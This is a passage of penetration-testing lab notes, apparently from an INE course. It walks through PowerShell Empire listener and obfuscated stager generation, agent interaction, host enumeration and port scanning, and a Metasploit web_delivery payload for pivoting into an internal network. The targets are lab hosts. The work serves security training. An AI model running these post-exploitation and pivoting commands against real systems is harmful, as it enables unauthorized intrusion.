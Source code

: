 Set the Listener option to the listener we created.

```
set Listener http
execute
```

This will generate the PowerShell code that is obfuscated that we then need to run on the target system that we want to get a session on.

We already have a session on the target system via smbexec.

Go back to our smbexec session.

Shell No. 1

Shell No. 3

```
agents
interact 687BVLWR
```

Perform local enumeration, or situational_awareness

```
usemodule powershell/situational_awareness/host/computerdetails
execute
```

```
usemodule powershell/situational_awareness/network/portscan
set Hosts 10.4.22.232
execute
```

Pivot to this system. Port forwarding techniques.

Shell No. 4

```
msfconsole
```

Utilize a web delivery payload to get a meterpreter session on demo.ine.local first, and then perform a network route so that we can access the internal network that demo.ine.local is a part of. And that fileServer.ine.local is a part of so that we can interact with that service running on port 80.

```
search web_delivery
use 1
show options
set target 2
show options
```

Shell No. 5

```
ifconfig

10.10.22.3
```
